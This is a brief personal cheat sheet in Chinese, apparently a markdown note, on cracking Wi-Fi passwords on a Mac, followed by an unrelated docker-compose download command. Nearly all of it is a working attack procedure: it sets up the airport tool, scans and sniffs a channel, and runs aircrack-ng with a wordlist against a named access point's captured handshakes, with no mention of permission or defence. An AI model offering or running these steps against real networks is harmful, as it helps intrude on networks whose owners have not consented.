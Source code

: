 # mac 下破解Wi-Fi
* 安装`aircrack-ng` 
* 创建airport连接
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/Versions/Current/Resources/airport /usr/local/bin/airport
* `/airport -s` scan wifi
* `airport card sniff 信道`
* 破解 aircrack-ng -w password.txt -b c8:3a:35:30:3e:c8 /tmp/*.cap

sudo curl -L https://github.com/docker/compose/releases/download/1.17.1/docker-compose-`uname -s`-`uname -m` -o /usr/local/bin/docker-compose
